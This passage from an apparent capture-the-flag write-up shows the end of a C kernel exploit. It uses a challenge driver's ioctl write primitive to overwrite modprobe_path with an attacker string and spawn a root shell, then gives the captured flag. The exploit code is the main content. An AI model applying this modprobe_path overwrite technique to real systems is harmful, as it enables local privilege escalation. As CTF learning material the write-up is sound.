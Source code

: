 ```c
            printf("[+] OFFSET FOUND %d\n", offset);
            break;
        } 
    }

    puts("[+] Overwrite modprobe_path with evil_str");
    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20);
    ww.value = (long)(&evil_str)+0;
    ioctl(fd, 0xFADE, &ww);

    ww.where = BASE_ADDRESS + MODPROBE_PATH_OFFSET + (offset << 20)+8;
    ww.value = (long)(&evil_str)+8;
    ioctl(fd, 0xFADE, &ww);
    get_shell();
  
}
``` 
</details>

Let's try the exploit in our local environment (don't forget to re-enabled the kaslr and set the shell permission back to user).

![PWN3D](images/PWN3D.gif)  

    
**Flag:** TCP1P{WHY_DID_YALL_LET_HIM_COOK_!!!!😭😭😭}